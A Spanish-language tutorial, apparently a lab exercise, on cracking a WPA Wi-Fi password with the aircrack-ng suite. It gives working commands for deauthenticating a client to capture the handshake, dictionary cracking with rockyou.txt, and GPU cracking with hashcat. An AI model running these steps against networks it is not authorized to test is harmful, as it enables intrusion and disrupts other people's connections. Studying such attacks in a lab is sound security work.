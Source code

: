 # hack-wifi WPA

Si usamos el cifrado WPA es totalmente seguro de los ataques? Vamos a intentar romper la clave de una red wifi con cifrado WPA. No pongas contraseña muy larga para este práctica, te vas a tardar bastante en descifrarlo.

![refresca la página para cargar el imágen](imagen/wpa0.png)

Para empezar abrimos el terminal y los 4º primeros pasos son iguales que el [Hackear wifi wep](https://nswhuei.github.io/hack-wifi/ActividadRQ3.1).


![refresca la página para cargar el imágen](imagen/wpa1.png)

Empezamos a capturar los paquetes de la red wifi, para descifrar la clave del wpa necesitamos un paquete especial: "**handshake**". Para ello necesitamos que algún equipo de la red se conecte de nuevo, podemos esperar o usar el comando **airepaly** para desconectar un equpo de la red.
>aireplay-ng -0 2 -a 24:7F:20:02:63:B6 -c F8:87:F1:BD:76:24 wlan1mon

```-0``` El código de empezar el ataque de "Deautenticación". [Aireplay](https://www.aircrack-ng.org/doku.php?id=es:aireplay-ng)

```-a``` El bssid del router

```-c``` El bssid del equipo que vas a desconectar

![refresca la página para cargar el imágen](imagen/wpa12.png)

Una vez conseguido el paquete handshake ya podemos empezar a descifrar la clave. Para ello necesitamos un diccionario y en kali lleva por defecto uno la descomprimimos.
>gzip -d /usr/share/wordlists/rockyou.txt.gz

Y empezamos a descifrar la clave.
>aircrack-ng -a2 -b 24:7F:20:02:63:B6 -w /usr/share/wordlists/rockyou.txt ./*.cap

```-a2```El cifrado de WPA.
```-b``` El bssid del router
```-w``` La ruta del diccionario.

Y esperamos a que se descifre la clave. 

![refresca la página para cargar el imágen](imagen/wpa4.png)

Ya he conseguido la clave del red wifi cifrado por wpa.

Además de descifrar con el **CPU** podemos usar nuestro **GPU** para descifrar claves con el comando **hashcat**.Para ello necesita tener instalado el driver de tu **GPU**.

![refresca la página para cargar el imágen](imagen/hashcat1.png)

Necesitamos cambiar el formato de los archivos .cap por hccap con el comando:
>aircrack-ng ./#origen -J ./#destino

```-J``` Crear archivos hccap.

![refresca la página para cargar el imágen](imagen/hashcat12.png)
>hashcat -m 2500 ./06.hccap /#el diccionario.

```-m``` El código del método de cifrado:
![refresca la página para cargar el imágen](imagen/hashcat3.png)

